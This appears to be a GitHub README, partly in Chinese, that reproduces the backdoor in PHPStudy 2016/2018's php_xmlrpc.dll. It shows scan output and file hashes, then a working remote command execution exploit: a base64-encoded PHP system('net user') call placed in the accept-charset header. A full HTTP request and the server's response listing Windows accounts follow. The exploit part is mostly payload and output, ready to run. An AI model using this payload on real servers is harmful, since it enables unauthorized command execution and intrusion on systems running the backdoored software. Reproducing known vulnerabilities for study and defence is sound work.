

# PHPStudy-Backdoor 后门漏洞复现
phpstudy dll backdoor for v2016 and v2018


## 0x01 scan search for backdoor dll

```
D:\Pentester\phpStudy>python check.py
=== .\php\php-5.2.17\ext\php_xmlrpc.dll ===
@eval(%s('%s'));
%s;@eval(%s('%s'));
=== .\php\php-5.4.45\ext\php_xmlrpc.dll ===
@eval(%s('%s'));
%s;@eval(%s('%s'));

D:\Pentester\phpStudy>

>>>D:\Pentester\phpStudy\php\php-5.2.17\ext\php_xmlrpc.dll
>>>D:\Pentester\phpStudy\php\php-5.4.45\ext\php_xmlrpc.dll


D:\Pentester\phpStudy>md5sum .\php\php-5.2.17\ext\php_xmlrpc.dll
\0f7ad38e7a9857523dfbce4bce43a9e9 *.\\php\\php-5.2.17\\ext\\php_xmlrpc.dll

D:\Pentester\phpStudy>md5sum  .\php\php-5.4.45\ext\php_xmlrpc.dll
\c339482fd2b233fb0a555b629c0ea5d5 *.\\php\\php-5.4.45\\ext\\php_xmlrpc.dll
```

## 0x02 exp

```Ps： 脚本编写思路:
1.先检测目标网站php版本，再执行命令，以及输出目标网站的server信息
2. 生成固定字符串md5,验证是否成功执行
```




`accept-charset: echo system("net user");echo PHP_VERSION;`

`Base64 encode`

`accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7ZWNobyBQSFBfVkVSU0lPTjs=`

## BurpSuite Request

```
GET / HTTP/1.1
Host: 172.16.9.174
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7ZWNobyBQSFBfVkVSU0lPTjs=
Accept-Encoding: gzip,deflate
Upgrade-Insecure-Requests: 1


```
## BurpSuite Response

```
HTTP/1.1 200 OK
Date: Tue, 24 Sep 2019 15:06:18 GMT
Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
X-Powered-By: PHP/5.4.45
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 17223


\\JAS502N µÄÓû§ÕÊ»§

-------------------------------------------------------------------------------
Administrator            CTF                      DefaultAccount           
defaultuser0             Guest                    
ÃüÁî³É¹¦Íê³É¡£

5.4.45
```


## 参考链接

https://mp.weixin.qq.com/s/dIDfgFxHlqenKRUSW7Oqkw
